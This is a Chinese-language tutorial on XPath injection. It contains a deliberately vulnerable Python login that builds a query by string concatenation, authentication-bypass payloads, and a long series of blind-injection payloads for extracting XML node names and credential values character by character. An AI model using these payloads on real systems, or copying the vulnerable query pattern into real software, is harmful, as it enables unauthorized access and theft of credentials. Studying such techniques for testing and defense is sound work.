

# xpath注入

## xpath基本语法

```
表达式           描述
nodename    选取此节点的所有子节点。
/                    从根节点选取。
//                    从匹配选择的当前节点选择文档中的节点，而不考虑它们的位置。
 .                     选取当前节点。
..                    选取当前节点的父节点。
@                   选取属性。
路径表达式     结果
bookstore       选取 bookstore 元素的所有子节点。
/bookstore    选取根元素 bookstore。
注释：假如路径起始于正斜杠( / )，则此路径始终代表到某元素的绝对路径！
bookstore/book    选取属于 bookstore 的子元素的所有 book 元素。
//book    选取所有 book 子元素，而不管它们在文档中的位置。
bookstore//book    选择属于 bookstore 元素的后代的所有 book 元素
//@lang    选取名为 lang 的所有属性。
通配符                 描述
*                       匹配任何元素节点。
@*                      匹配任何属性节点。
node()                  匹配任何类型的节点。
没有注释，不能像sql一样，用注释杀掉后面语句
```

## xpath注入基础

参考文章：[浅谈Xpath注入漏洞_coleak的博客-CSDN博客](https://blog.csdn.net/qq_63701832/article/details/129433006)

```
' or 1=1 or ''='
']|//*|//*['

//users/user[loginID/text()=''or 1=1 or ''='' and password/text()='' or 1=1 or ''='']
```

### xpath简介

```
XPath注入攻击是指利用XPath 解析器的松散输入和容错特性，能够在 URL、表单或其它信息上附带恶意的XPath 查询代码，以获得权限信息的访问权并更改这些信息。XPath注入发生在当站点使用用户输入的信息来构造请求以获取XML数据。攻击者对站点发送经过特殊构造的信息来探究站点使用的XML是如何构造的，从而进一步获取正常途径下无法获取的数据。当XML数据被用作账户验证时，攻击者还可以提升他的权限。
```

### 基础语法

```
“nodename” – 选取nodename的所有子节点
“/nodename” – 从根节点中选择
“//nodename” – 从当前节点选择
“..” – 选择当前节点的父节点
“child::node()” – 选择当前节点的所有子节点
"@" -选择属性
"//user[position()=2] " 选择节点位置
```



语法演示：

```
from lxml import etree
xml ='''
  <students>
    <student number="1">
        <name id="zs">
            <xing>张</xing>
            <ming>三</ming>
        </name>
        <age>18</age>
        <sex>male</sex>
    </student>
    <student number="2">
        <name id = "ls">李四</name>
        <age>24</age>
        <sex>female</sex>
    </student>
</students>
'''
tree = etree.XML(xml)
out = tree.xpath('//students')[0][0][0][0].text
print(out)
print('-------------------------------------')
out = tree.xpath('//name')[1].text
print(out)
out = tree.xpath('//name')[1].xpath('@id')
print(out)
```

输出：

```
张
-------------------------------------
李四
['ls']
```

### 漏洞简介

```
XPath 注入的原理与sql注入大体类似。主要是通过构建特殊的输入，这些输入往往是XPath语法中的一些组合，这些输入将作为参数传入Web 应用程序，通过执行XPath查询而执行入侵者想要的操作。但是，注入的对象不是数据库users表了，而是一个存储数据的XML文件。因为xpath不存在访问控制，所以我们不会遇到许多在SQL注入中经常遇到的访问限制。 注入出现的位置也就是cookie，headers，request parameters/input等
```

### 案例

正常的一个登录网站

```
from lxml import etree
 
xml ='''
  <students>
 <student>
    <id>admin</id>
    <password>123456</password>
 </student>
</students>
'''
tree = etree.XML(xml)
username = input('请输入用户名')
password = input('请输入密码')
out = tree.xpath('/students/student[id/text()="'+username+'" and password/text()="'+password+'"]')
print('登录成功，欢迎您'+out[0][0].text)
```

正常登录

```
admin
123456
```

不正常登录

```
admin
" or "1"="1

类sql注入拼接：
# /students/student[id/text()="admin" and password/text() = "" or "1"="1"]
```

## xpath盲注

xpath盲注适用于攻击者不清楚XML文档的架构，没有错误信息返回，一次只能通过布尔化查询来获取部分信息，同样以0x05中的源码为例

**Xpath盲注步骤：**

- 判断根节点下的节点数
- 判断根节点下节点长度&名称
- .....
- 重复猜解完所有节点，获取最后的值

从根节点开始判断

```
'or count(/)=1  or ''='     ###根节点数量为1
'or count(/*)=1 or ''='   ##根节点下只有一个子节点
```

判断根节点下的节点长度

```
'or string-length(name(/*[1]))=8 or ''='
```

猜解根节点下的节点名称

```
'or substring(name(/*[1]), 1, 1)='a'  or ''='
'or substring(name(/*[1]), 2, 1)='c'  or ''='
..
'or substring(name(/*[1]), 8, 1)='s'  or ''='
```

猜解出该节点名称为accounts

```
'or count(/accounts)=1  or ''='   /accounts节点数量为1
'or count(/accounts/user/*)>0 or ''='     /accounts下有两个节点
'or string-length(name(/accounts/*[1]))=4  or ''='    第一个子节点长度为4
```

猜解accounts下的节点名称

```
'or substring(name(/accounts/*[1]), 1, 1)='u'  or ''='
...
'or substring(name(/accounts/*[1]), 4, 1)='r'  or ''='
```

accounts下子节点名称为user

```
'or count(/accounts/user)=2  or ''='    user节点有两个，则可以猜测出accounts节点结构，accounts下两个节点，均为user节点
```

第一个user节点的子节点长度为8：
'or string-length(name(/accounts/user[position()=1]/*[1]))=8 or ''='

读取user节点的下子节点

```
'or substring(name(/accounts/user[position()=1]/*[1]), 1, 1)='u'  or ''='
'or substring(name(/accounts/user[position()=1]/*[1]), 2, 1)='s'  or ''='
...
'or substring(name(/accounts/user[position()=1]/*[1]), 8, 1)='e'  or ''='
```

最终所有子节点值验证如下：

```
'or substring(name(/accounts/user[position()=1]/*[1]), 1)='username'  or ''='
'or substring(name(/accounts/user[position()=1]/*[2]), 1)='email'  or ''='
'or substring(name(/accounts/user[position()=1]/*[3]), 1)='accounttype'  or ''='
'or substring(name(/accounts/user[position()=1]/*[4]), 1)='password'  or ''='
```

继续猜解：

```
'or count(/accounts/user[position()=1]/username/*)>0 or ''='   
'or count(/accounts/user[position()=1]/email/*)>0 or ''=' 
'or count(/accounts/user[position()=1]/accounttype/*)>0 or ''='
'or count(/accounts/user[position()=1]/username/password/*)>0 or ''='
```

均为 false，不再有子节点，则可以尝试读取这些节点的值

第一个user下的username值长度为6:

```
'or string-length((//user[position()=1]/username[position()=1]))=6  or ''='
```

读取第一个user下usernaem的值

```
'or substring((//user[position()=1]/username[position()=1]),1,1)='T'  or ''='
....
'or substring((//user[position()=1]/username[position()=1]),6,1)='e'  or ''='
```

可依次读取所有的子节点的值，第二user节点的子节点值读取方式：

```
'or string-length((//user[position()=2]/username[position()=1]))=4 or ''='  第一个user下的username长度为4
......
```

重复上边步骤即可


